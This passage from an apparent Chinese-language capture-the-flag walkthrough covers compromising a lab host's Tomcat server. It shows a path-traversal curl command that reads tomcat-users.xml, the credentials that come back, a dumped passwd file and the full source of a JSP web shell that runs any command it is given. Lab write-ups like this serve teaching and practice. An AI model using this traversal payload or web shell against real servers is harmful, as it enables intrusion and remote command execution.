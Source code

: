 ```Bash
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
tomcat:x:997:997::/opt/tomcat:/bin/false
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
ash:x:1000:1000:clive:/home/ash:/bin/bash

```



这里tomcat-usres.xml的路径并不在 /etc/tomcat9下面，而是在/usr/share中，默认安装tomcat会存在这两个路径

```Bash
└─# curl megahosting.htb/news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml

```

```Bash
 # 拿到用户名密码信息
 <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>

```

通过host-manager进入控制台



#### 制作恶意的war包

- 工具

[mgeeky/tomcatWarDeployer: Apache Tomcat auto WAR deployment & pwning penetration testing tool. (github.com)](https://github.com/mgeeky/tomcatWarDeployer)

- 手动
    - 写一个jsp

```Bash
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```
    - 打war包
